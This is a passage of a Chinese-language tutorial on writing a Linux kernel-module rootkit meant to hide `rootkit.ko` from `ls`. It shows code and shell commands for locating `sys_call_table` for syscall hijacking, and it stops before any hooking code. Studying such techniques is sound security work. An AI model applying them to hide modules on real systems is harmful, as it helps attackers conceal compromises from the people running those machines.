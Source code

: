 ## 隱之呼吸參之型 - Loadable Kernel Module

### 條件

需要 root

### 目標

在 `ls` 的結果中隱藏 `rootkit.ko`

### 取得 sys_call_table

首先因為我們要 hijack system call 所以要先取得 `sys_call_table` 的位址

#### 方法一

* 在 2.4 以前的內核版本，預設導出所有符號，所以可以直接用
* 如果自己編譯內核的話，可以修改原始碼用 `EXPORT_SYMBOL` 把 `sys_call_table` 的符號導出來

```c
extern void *sys_call_table[];
```

#### 方法二

`kallsyms_lookup_name` 這個函式也可以抓位址，但他也不一定會被導出

```c
#include <linux/kallsyms.h>

static void **sys_call_table;

static int __init hook_init (void) {
    sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
    printk(KERN_INFO "sys_call_table = 0x%px\n", sys_call_table);
    return 0;
}
```

{% admonition question "How to printk a pointer ?" %}
    要用 printk 印出 pointer 可以用 `%px`
    `%p` 只會印出該指標的雜湊值而不是真正的指標的值，這是為了避免洩漏內核位址
{% endadmonition %}

#### 方法三

* 下面兩個檔案路徑有可能會有 sys_call_table 的位址
* /proc/kallsyms 是一個特殊的檔案，會在讀取時動態產生

```bash
cat /boot/System.map-$(uname -r) | grep "sys_call_table"
cat /proc/kallsyms | grep  "sys_call_table"
```

#### 方法四
